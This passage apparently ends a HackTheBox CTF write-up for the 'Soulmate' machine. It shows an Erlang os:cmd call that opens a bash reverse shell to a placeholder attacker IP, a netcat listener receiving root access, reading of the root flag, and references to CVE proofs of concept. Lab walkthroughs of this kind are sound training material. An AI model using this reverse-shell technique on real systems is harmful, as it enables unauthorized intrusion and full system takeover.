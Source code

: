 From the previous file that we found, it is about <code>erlang</code>. I found out that we can exploit the <code>erlang</code> services with RCE. Can read [here](https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce). So, the plan here is to create another reverse shell in the <code>erlang</code> service (dont forget the **"."** at the end):
```
ben@soulmate:~$ ssh ben@localhost -p 2222
(ssh_runner@soulmate)1> os:cmd("bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/1234 0>&1'").
```

```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Soulmate]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<MACHINE-IP>] 48002
bash: cannot set terminal process group (93513): Inappropriate ioctl for device
bash: no job control in this shell
root@soulmate:/# ls /root
ls /root
root.txt
scripts
root@soulmate:/# cat /root/root.txt
cat /root/root.txt
```

<details><summary><b>🏳️root.txt</b></summary></details><br>


## 📌 Final Thoughts

Thank you for reading my writeups. Based, on this machine, I leant that we must try to enumerate the other subdomains of the server to reveal some hidden secrets.


## 📚 References:

- CrushFTP CVE-2025-31161 Auth Bypass and Post-Exploitation - https://www.huntress.com/blog/crushftp-cve-2025-31161-auth-bypass-and-post-exploitation

- Proof of Concept for CVE-2025-31161 / CVE-2025-2825 - https://github.com/Immersive-Labs-Sec/CVE-2025-31161

- Reverse Shell Generator - https://www.revshells.com/

- CVE-2025-32433: Pre-Auth RCE in Erlang/OTP SSH Server - https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce